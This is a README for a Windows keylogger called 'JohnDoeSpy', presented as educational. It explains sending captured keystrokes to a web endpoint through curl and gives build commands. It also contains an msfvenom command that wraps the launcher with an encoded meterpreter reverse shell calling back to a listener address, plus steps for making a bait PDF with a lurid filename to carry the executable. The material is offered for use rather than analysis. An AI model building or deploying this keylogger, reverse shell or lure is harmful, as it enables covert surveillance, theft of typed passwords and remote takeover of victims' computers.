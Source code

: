 # JohnDoeSpy

# Introduction
<p> This is a simple keylogger for educational purposes. I'm not responsible of your usage. </p>
<p> Keylogger build in C++ for detect keys from keyboards (specific keys only available for french keyboard). You can receive data from url intermediate hosting or by simple text file hidden in your directory. </p>


# HAVE TO KNOW 

<p> This keylogger is build for french keyboard, by the way specific characters will appear with bad matching if you use an other country's keyboard. But any others characters show on <p/>

### WORK ONLY FOR WINDOWS ###


## How to start

* Open terminal from root path project 
* <code> cd build\dllToExe </code>
* <code> pefrmdllembed.exe -impinj KeyloggerV1.exe libcurl-d.dll zlibd1.dll <NameKeylogger.exe> </code>
* Launch <NameKeylogger.exe>
  
  
 ## Payload metasploit
 
 <code> msfvenom -x .\JohnnyLounch.exe -p windows/meterpreter_reverse_tcp -f exe -e x86/shikata_ga_nai lhost=192.168.1.80 lport=4444  -o JohnnyLounchMeterpreter2.exe </code>

### $_POST['text'] matching request curl for receive data on your website.
### You have an example in web directory


## HOW TO CREATE PDF COMPATIBLE FOR EMBED EXE FILE IN

<code>echo "Hello world!" > femmes_toutes_nues.txt</code>
<code>groff -Tps femmes_toutes_nues.txt > femmes_toutes_nues.ps </code>
<code>ps2pdf femmes_toutes_nues.ps </code>
